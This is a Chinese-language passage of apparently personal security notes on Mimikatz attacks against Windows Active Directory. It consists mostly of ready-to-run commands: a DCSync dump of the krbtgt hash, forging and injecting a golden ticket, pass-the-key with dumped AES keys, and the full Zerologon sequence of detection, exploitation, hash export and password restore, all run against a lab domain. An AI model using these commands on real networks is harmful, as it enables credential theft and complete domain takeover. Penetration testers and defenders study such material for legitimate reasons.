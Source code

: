 **例子**

在数据库服务器上，利用域管理员的权限获得 krbtgt 的 NTLM 哈希 和 SID

使用 Mimikatz 抓取 Krbtgt 账号的密码
```bash
mimikatz.exe "lsadump::dcsync /domain:ffffffff0x.com /user:krbtgt" > log.txt
```

![](../../../assets/img/Security/安全工具/mimikatz/3.png)

得到 krbtgt 哈希之后，使用 mimikatz 的 `kerberos::golden` 生成黄金票据 `test.kiribi`：
```bash
kerberos::golden /user:administrator /domain:FFFFFFFF0X.com /sid:S-1-5-21-1112871890-2494343973-3486175548 /krbtgt:743093920acd8d427323c24c0e2c52c2 /ticket:test.kiribi
```
`/admin` 为伪造的用户名，用户名可以任意伪造 `/domain` 为目标的域名 `/sid` 为目标域名的 SID `/krbtgt` 为 krbtgt 账户密码的 NTLM Hash `/ticket` 为要伪造的黄金票据的名称

注入黄金票据
```bash
kerberos::ptt test.kiribi
```

访问测试

![](../../../assets/img/Security/安全工具/mimikatz/4.png)

---

# PTK

```bash
# 获取用户的 aes key
mimikatz "privilege::debug" "sekurlsa::ekeys"

# 注意查看 aes256_hmac 和 aes128_hmac

mimikatz "privilege::debug" "sekurlsa::pth /user:test /domain:test.com /aes256:c4388a1fb9bd65a88343a32c09e53ba6c1ead4de8a17a442e819e98c522fc288"
```

域控未打 KB2871997 补丁前，无法使用 Key 传递攻击

---

# zerologon

```bash
# 检测
lsadump::zerologon /target:WIN-A5GPDCPJ7OT.ffffffff0x.com /account:WIN-A5GPDCPJ7OT$

# 利用
lsadump::zerologon /target:WIN-A5GPDCPJ7OT.ffffffff0x.com /account:WIN-A5GPDCPJ7OT$ /exploit

# 使用空密码登录域管
lsadump::dcsync /domain:ffffffff0x.com /dc:WIN-A5GPDCPJ7OT.ffffffff0x.com /user:krbtgt /authuser:WIN-A5GPDCPJ7OT$ /authdomain:ffffffff0x /authpassword:"" /authntlm

# 导出hash
lsadump::dcsync /domain:ffffffff0x.com /dc:WIN-A5GPDCPJ7OT.ffffffff0x.com /user:administrator /authuser:WIN-A5GPDCPJ7OT$ /authdomain:ffffffff0x /authpassword: /authntlm

# 恢复密码
lsadump::postzerologon /target:192.168.141.154 /account:WIN-A5GPDCPJ7OT$
```

---